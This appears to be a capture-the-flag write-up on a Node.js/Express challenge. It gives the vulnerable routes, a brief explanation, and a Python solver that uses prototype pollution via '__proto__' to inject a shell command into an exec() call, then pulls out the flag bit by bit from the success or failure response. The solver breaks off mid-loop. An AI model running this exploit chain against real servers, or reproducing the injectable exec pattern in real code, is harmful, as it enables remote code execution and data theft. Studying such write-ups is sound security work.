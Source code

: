 ```js
	res.send(result);
});

router.get('/add', (req, res) => {
	const {user,password,entry} = req.query;
	if (!user) return res.send("Invalid use of the endpoint. No user provided!");
	if (!db[user]) db[user]={};
	db[user][password] = entry;
	console.log(db);
	res.send("Entry added succesfully!");
});


// WORK IN PROGRESS
router.get('/dev',(req,res) => {
	let result = Buffer.from(JSON.stringify(db));
	const cmd = utils.uploader + `dev ${result.toString('base64')}`;
	console.log(cmd);
	exec(cmd,(err,_,__) => {
		if (err) return res.json({is_success:false});
		res.json({is_success:true});
	});
});

app.listen(3000, () => console.log(`Listening on port 3000`));
```

The first bug is in /add, as we can add a pollute a variable in `__proto__` and the second bug for RCE is in dev as we control utils.uploader.

RCE by abusing prototype pollution on node.js + flag exfiltration using status code.

Solver:

```py
import requests

#urlencode string
def urlencode(string):
    return requests.utils.quote(string)

def set_cmd(cmd):
    burp0_url = f"http://34.141.25.94:31626/add?user=__proto__&password=uploader&entry={urlencode(cmd)};%23"
    burp0_headers = {"X-Forwarded-For": "127.0.0.1", "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
    requests.get(burp0_url, headers=burp0_headers)

def exec_cmd():
    burp0_url = "http://34.141.25.94:31626/dev"
    burp0_headers = {"X-Forwarded-For": "127.0.0.1", "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
    r = requests.get(burp0_url, headers=burp0_headers)

    return r.json()

flag = 'd3147872085df5640daf51b2781a45d34645226fdf37367fa04fecb6242ea83'
for _ in range(64):
    for c in '0123456789abcdef}':
```
